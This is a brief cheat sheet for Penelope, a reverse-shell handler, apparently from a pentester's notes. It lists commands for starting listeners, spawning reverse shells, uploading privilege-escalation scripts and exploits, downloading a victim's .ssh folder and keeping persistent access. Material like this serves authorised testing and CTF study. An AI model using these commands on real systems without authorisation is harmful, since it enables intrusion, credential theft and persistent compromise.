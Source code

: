 # Penelope

Link: https://github.com/brightio/penelope

## Usage

#### 1) Create listener

    penelope (Default 4444)

#### 2) Create listener on a specific port

    penelope 443

#### 3) Go to main menu of penelope

    CTRL+C or F12

## Penelope Terminal

#### 1) Run linpeas

    > run peass_ng

#### 2) Check for tasks running on the machine

    > tasks

#### 3) Spawn a reverse shell

    > spawn 443

#### 4) Upload privesc scripts to target machine

    > run upload_privesc_scripts

#### 5) Upload your own scripts on the machine

    > upload /home/user/myscripts

#### 6) Download an exploit from exploit-db

    > upload https://www.exploit-db.com/exploits/NUM

#### 7) Interact with your session

    > interact

#### 8) Open a file from target machine

    > open file.ods

#### 9) Download files 

    > download /home/victim/.ssh

#### 10) Maintain shells depending on the number provided for persistent access

    > maintaining 2

#### 11) Kill your session (If you maintained another shell session, upon killing one session, the tool will try to spawn another one)

    > kill
